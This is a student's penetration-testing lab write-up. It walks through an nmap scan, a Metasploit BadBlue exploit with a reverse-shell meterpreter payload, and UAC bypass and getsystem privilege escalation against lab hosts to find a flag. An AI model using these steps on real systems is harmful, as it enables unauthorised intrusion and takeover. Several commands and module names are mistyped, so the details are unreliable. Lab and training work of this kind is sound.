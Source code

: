 # Assigment 2
For full executive report, see [PWNChallenge2_GabriellaAhn](https://github.com/haein001/CMU_penetration-testing/blob/3355250e0ba7ee6308910f5ad3355f6abd0d73bd/pwnchallenge2/PWNChallenge%232.pdf).


1. Conduct thorough scan of 10.20.160.63 and 10.20.160.112 that are found from inital scan of the scope.
   
    ``
    nmap -A -p- -T5 10.20.160.112
    ``
    
    ``
    nmap -A -p- -T5 10.20.160.63
    ``
    
    Port 8080 was running BadBlue httpd 2.7 from 10.20.160.112. 
    
2. Open Metasploit.

    ``
    msfconsole
    ``
    
3. Since we are going to use _badblue_ to exploit the host, serach Konica. Use the exploit from the search result.

    ``
    search Badblue
    ``
    
    ``
    use exploit/windows/gttp/badblue_passthru
    ``
   
4. Set rhost, rport, and payload.
    
    ``
    set RHOST 10.20.160.112
    ``
    
    ``
    set RPORT 8080
    ``
    
    ``
    set PAYLOAD windows/meterpreter/reverse_tcp
    ``

5. Then, exploit

    ``
    exploit
    ``
    
6. Now you are in the system. Use various command to look for the flag.

    ``
    search -f proof.txt
    ``
    
    But, in Juan's desktop folder, there is no flag. So, we have to escalate the privilege to administer.
    
7. Use bypassuac to escalate the privilege.
- **bypassuac:** is an exploit that are designed to bypass User Access Control.

    ``
    search bypassuac
    ``
    
8. Set the basic information for the exploit.

    ``
    use exploit/windows/local/bypassuac
    ``
    
    ``
    session -i
    ``
    
    ``
    set session 1
    ``
    
    ``
    set payload windows/meterpreter/reverse_tcp
    ``
    
    ``
    exploit
    ``

12. After succesfully logging into the machine, check the username.

    ``
    get uid
    ``
    
    ``
    getsystem
    ``
    
    ``
    get uid
    ``
       
    It will be still Juan, so in order to change to administer you have to use _'getsystem'_ command.
    
13.  Then, use windows command to get the flag.
